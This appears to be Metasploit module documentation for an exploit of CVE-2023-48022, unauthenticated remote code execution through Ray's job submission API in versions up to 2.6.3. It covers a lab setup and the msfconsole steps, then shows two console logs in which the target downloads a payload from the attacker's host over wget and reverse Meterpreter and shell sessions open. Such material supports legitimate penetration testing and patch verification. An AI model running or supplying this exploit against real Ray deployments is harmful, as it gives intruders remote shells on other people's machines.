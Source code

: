 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via the agent job submission endpoint (CVE-2023-48022)

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_agent_job_rce`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options
No options

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_EJDSK2BrhAP8j69n' Submission ID: 'raysubmit_EJDSK2BrhAP8j69n'
[*] Using URL: http://192.168.56.1:8080/kOZWO5HA3wWm2Hh
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /kOZWO5HA3wWm2Hh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:42052) at 2024-08-10 10:45:48 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > set target 1
target => 1
msf6 exploit(linux/http/ray_agent_job_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_RNpiJJt2feNrUrwN' Submission ID: 'raysubmit_RNpiJJt2feNrUrwN'
[*] Using URL: http://192.168.56.1:8080/QtpKXmqA8kq
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /QtpKXmqA8kq
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:35136) at 2024-08-10 10:47:37 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```
